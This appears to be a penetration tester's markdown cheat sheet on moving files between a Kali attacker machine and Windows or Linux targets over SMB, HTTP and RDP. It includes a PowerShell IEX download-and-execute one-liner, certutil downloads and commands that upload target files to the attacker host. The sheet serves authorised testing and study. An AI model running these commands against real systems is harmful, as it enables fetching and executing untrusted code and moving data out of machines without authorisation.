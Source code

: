 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared.

```bash
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target

```cmd
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

KALI to TARGET

```cmd
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

TARGET to KALI

```cmd
xcopy <source_path>\<file> \\<Kali IP>\share\
```

## HTTP - from attacker to target OR target to attacker

Python 2.7

```bash
cd <path>
python -m SimpleHTTPServer 8000
```

or

Python 3

```bash
cd <path>
python3 -m http.server 8000
```

or

PHP

```bash
cd <path>
php -S 0.0.0.0:8000
```

or

Ruby

```bash
cd <path>
ruby -run -ehttpd . -p8000
```

### download to Windows

PowerShell

```powershell
Invoke-WebRequest -Uri 'http://<http server IP>:8000/<filename>' -OutFile <filename> 
```

PowerShell from cmd

```cmd
powershell.exe -command Invoke-WebRequest -Uri http://<http server IP>:8000/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file

```cmd
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<http server IP>:8000/<filename>)
```

Certutil

```cmd
certutil -urlcache -split -f 'http://<http server IP>:8000/<filename>' <path_destiny><filename>
```

### upload from Windows

Start HTTP upload server on Kali

```bash
python3 -m uploadserver 9090
```

Load PS lib [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) and execute `Invoke-FileUpload`.

```powershell
Invoke-FileUpload -File C:\Temp\file.txt -Uri http://<HTTP Server IP>:9090/upload
```

### download to Linux

wget

```bash
wget <http server IP>:8000/<filename>
```

Perl oneliner

```bash
perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://<http server IP>:8181/file.txt", "file.txt");'
```

## RDP - tsclient

### attacker to/from Windows

Use rdesktop or xfreerdp to connect to Windows target mapping a attacker host local folder to tsclient - [examples](windowsRemoteDesktop.md)

On the Windows target with CMD or PowerShell you can list the directory with `dir \\tsclient\sharedfolder`.

```powershell
PS C:\> dir \\tsclient\kali

    Directory: \\tsclient\kali

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/19/2021   1:14 PM              0 file_01.txt
-a----        6/18/2021  12:23 PM             36 file_02.txt
```

```powershell
PS C:\> mkdir C:\Temp
PS C:\> copy \\tsclient\kali\Tools.zip C:\Temp
PS C:\> Expand-Archive -LiteralPath C:\Temp\Tools.zip -DestinationPath C:\Temp
```

```powershell
PS C:\> dir C:\Temp\

    Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/18/2023   3:03 PM                Tools
-a----       11/18/2023   2:59 PM       12711723 Tools.zip
```

## Links

- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- [nfinitelogins - windows-file-transfer-cheatsheet/](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
- [certcube - file-transfer-cheatsheet-for-pentesters](https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/)
- [fir3wa1-k3r - File-Transfer-cheatsheet](https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html)
